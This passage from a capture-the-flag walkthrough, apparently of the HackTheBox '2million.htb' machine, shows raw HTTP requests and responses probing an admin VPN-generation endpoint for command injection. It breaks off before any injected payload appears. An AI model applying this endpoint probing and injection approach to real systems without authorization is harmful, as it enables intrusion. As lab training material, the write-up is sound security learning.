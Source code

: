 
## ⚙️ Shell Access

- Here, it took a bit to find a vulnerable endpoint for command injection. It's this one `/api/v1/admin/vpn/generate`.

- When I sent a request here, I got a response that it requires username.

  ```
  Request:

  POST /api/v1/admin/vpn/generate HTTP/1.1
  Host: 2million.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Referer: http://2million.htb/home/access
  Cookie: PHPSESSID=um757ovsecv1vf5479od3lnb1v
  Content-Type: application/json
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  Content-Length: 50
  
  {
  	"email":"bimbo@test.com",
  	"is_admin":1
  }
  
  Response:
  
  HTTP/1.1 200 OK
  Server: nginx
  Date: Wed, 11 Jun 2025 22:49:18 GMT
  Content-Type: text/html; charset=UTF-8
  Connection: keep-alive
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Content-Length: 59
  
  {"status":"danger","message":"Missing parameter: username"}
  ```
  
- Let's try it with username then:

  ```
  Request:

  POST /api/v1/admin/vpn/generate HTTP/1.1
  Host: 2million.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Referer: http://2million.htb/home/access
  Cookie: PHPSESSID=um757ovsecv1vf5479od3lnb1v
  Content-Type: application/json
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  Content-Length: 29
  
  {
  	"username":"bimbo"
  ```